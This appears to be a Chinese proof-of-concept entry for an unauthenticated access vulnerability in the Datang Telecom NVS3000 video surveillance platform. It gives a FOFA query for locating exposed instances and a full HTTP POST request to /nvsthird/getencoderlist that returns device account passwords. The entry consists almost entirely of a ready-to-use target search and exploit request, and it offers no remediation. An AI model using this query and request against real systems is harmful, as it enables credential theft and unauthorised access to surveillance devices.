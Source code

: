 ## 大唐电信NVS3000综合视频监控平台getencoderlist存在未授权访问漏洞

  大唐电信科技股份有限公司NVS3000综合视频监控平台 /nvsthird/getencoderlist 存在未授权访问，可获取设备账号密码。

## fofa

```
(body="NVS3000综合视频监控平台" && title=="综合视频监控平台") || app="大唐电信-NVS3000"
```

## poc

```
POST /nvsthird/getencoderlist HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Length: 49

{"token":"","fromindex":0,"toindex":-1}
```

![image-20240707201853106](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072018170.png)